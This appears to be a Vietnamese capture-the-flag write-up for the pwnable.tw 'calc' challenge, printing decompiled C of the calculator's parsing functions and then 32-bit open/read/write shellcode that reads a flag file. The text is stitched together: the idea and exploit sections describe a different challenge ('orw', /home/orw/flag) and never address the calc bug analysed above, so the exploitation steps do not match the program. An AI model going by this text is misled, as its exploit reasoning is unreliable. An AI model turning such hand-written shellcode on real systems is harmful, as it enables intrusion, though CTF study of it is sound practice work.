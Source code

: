 # pwnable.tw - calc

Have you ever use Microsoft calculator?

`nc chall.pwnable.tw 10100`

# 1) Analysis and find Bug

Đầu tiên ta kiếm tra các secure flag và xem thông tin cơ bản của file.

![checksec.png](images/checksec.png)

Ta tiến hành đọc và phân tích mã nguồn chương trình bằng IDA để tìm hướng khai thác.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ssignal(14, timeout);
  alarm(60);
  puts("=== Welcome to SECPROG calculator ===");
  fflush(stdout);
  calc();
  return puts("Merry Christmas!");
}
```

Hàm main của chương trình thiết lập timeout - khi quá 60s nếu không có tác động input đầu vào nào chương trình sẽ tự động ngắt kết nối. Sau đó là gọi tới hàm `calc()`.

```c
unsigned int calc()
{
  int v1[101]; // [esp+18h] [ebp-5A0h] BYREF
  char s[1024]; // [esp+1ACh] [ebp-40Ch] BYREF
  
  // canary
  unsigned int v3; // [esp+5ACh] [ebp-Ch]
  v3 = __readgsdword(0x14u);
  
  while ( 1 )
  {
    bzero(s, 0x400u);
    if ( !get_expr(s, 1024) )
      break;
    init_pool(v1);
    if ( parse_expr(s, v1) )
    {
      printf("%d\n", v1[v1[0]]);
      fflush(stdout);
    }
  }
  return __readgsdword(0x14u) ^ v3;
}
```

Khai báo mảng số nguyên `v1[101]` có địa chỉ `[ebp-5A0h]`; mảng kí tự `s[1024]` có địa chỉ tại `[ebp-40Ch]`; v3 là `canary` có địa chỉ tại `[ebp-Ch]`. Hàm `bzero()` là hàm của thư viện, nó dùng để `NULL` 0x400 kí tự của chuỗi `s`. Sau đó từ hàm `calc()` gọi tới ba hàm khác là `get_expr()`, `init_pool` và `parse_expr`.  

```c
int __cdecl get_expr(int a1, int a2)
{
  int v2; // eax
  char v4; // [esp+1Bh] [ebp-Dh] BYREF
  
  int v5; // [esp+1Ch] [ebp-Ch]
  v5 = 0;
  
  while ( v5 < a2 && read(0, &v4, 1) != -1 && v4 != 10 ) // đọc input từng byte một kiểm tra nếu số kí tự nhập vào lớn hớn 1024 hoặc kí tự là newline thì dừng while.
  {
    if ( v4 == 43 || v4 == 45 || v4 == 42 || v4 == 47 || v4 == 37 || v4 > 47 && v4 <= 57 )
    // v4 == '+' || v4 == '-' || v4 == '*' || v4 == '/' || v4 == '%' || v4 > '/' && v4 <= '9'  
    {
      v2 = v5++;
      *(_BYTE *)(a1 + v2) = v4;
    }
  }
  *(_BYTE *)(v5 + a1) = 0;
  return v5;
}
```

Hàm `get_expr()` được gọi từ hàm `calc()` với hai đối số là `int a1` được truyền chuỗi s từ hàm `calc()` và đối số thứ hai là `int a2` là số kí tự của chuỗi s - 1024. Hàm `get_expr()` đọc input từng byte một và kiếm tra xem kí tự đó có thỏa mãn là các kí tự (+, -, *, /, %, 0, 1, 2, 3, 4, 5, 6, 7, 8, 9) rồi lưu input vào chuỗi s, sau đó gán kí tự cuối cùng là `NULL`. Giá trị trả về của hàm là v5 là độ dài của chuỗi `s`.

```c
_DWORD *__cdecl init_pool(_DWORD *a1)
{
  _DWORD *result; // eax
  int i; // [esp+Ch] [ebp-4h]

  result = a1;
  *a1 = 0;
  for ( i = 0; i <= 99; ++i )
  {
    result = a1;
    a1[i + 1] = 0;
  }
  return result;
}
```

...

```c
int __cdecl parse_expr(int a1, _DWORD *a2)
{
  int v3; // eax
  int v4; // [esp+20h] [ebp-88h]
  int i; // [esp+24h] [ebp-84h]
  int v6; // [esp+28h] [ebp-80h]
  int v7; // [esp+2Ch] [ebp-7Ch]
  char *s1; // [esp+30h] [ebp-78h]
  int v9; // [esp+34h] [ebp-74h]
  char s[100]; // [esp+38h] [ebp-70h] BYREF
  unsigned int v11; // [esp+9Ch] [ebp-Ch]

  v11 = __readgsdword(0x14u);
  v4 = a1;
  v6 = 0;
  bzero(s, 0x64u);
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)(*(char *)(i + a1) - 48) > 9 )
    {
      v7 = i + a1 - v4;
      s1 = (char *)malloc(v7 + 1);
      memcpy(s1, v4, v7);
      s1[v7] = 0;
      if ( !strcmp(s1, "0") )
      {
        puts("prevent division by zero");
        fflush(stdout);
        return 0;
      }
      v9 = atoi(s1);
      if ( v9 > 0 )
      {
        v3 = (*a2)++;
        a2[v3 + 1] = v9;
      }
      if ( *(_BYTE *)(i + a1) && (unsigned int)(*(char *)(i + 1 + a1) - 48) > 9 )
      {
        puts("expression error!");
        fflush(stdout);
        return 0;
      }
      v4 = i + 1 + a1;
      if ( s[v6] )
      {
        switch ( *(_BYTE *)(i + a1) )
        {
          case '%':
          case '*':
          case '/':
            if ( s[v6] != 43 && s[v6] != 45 )
              goto LABEL_14;
            s[++v6] = *(_BYTE *)(i + a1);
            break;
          case '+':
          case '-':
LABEL_14:
            eval(a2, s[v6]);
            s[v6] = *(_BYTE *)(i + a1);
            break;
          default:
            eval(a2, s[v6--]);
            break;
        }
      }
      else
      {
        s[v6] = *(_BYTE *)(i + a1);
      }
      if ( !*(_BYTE *)(i + a1) )
        break;
    }
  }
  while ( v6 >= 0 )
    eval(a2, s[v6--]);
  return 1;
}
```

# 2) Idea

Ở phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write`, khi chúng ta nhập input là shellcode thì chương trình sẽ thực hiện các công việc mà shellcode đó yêu cầu. Ở đây ta sẽ dùng `syscall_open` để mở file flag ở `/home/orw/flag` và dùng `syscall_read`, `syscall_write` để đọc và ghi flag ra `terminal`, còn về shellcode 32bit thì ta phải tự viết vì đây không phải là shellcode execute nên không phổ biến để chọn.

# 3) Exploit

Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành mã shellcode. Tôi dùng tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) để làm điều đó.

![shellcode.png](images/shellcode.png)

# 4) Source code and get Flag

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

![flag.png](images/flag.png)

------------------------------------------------------
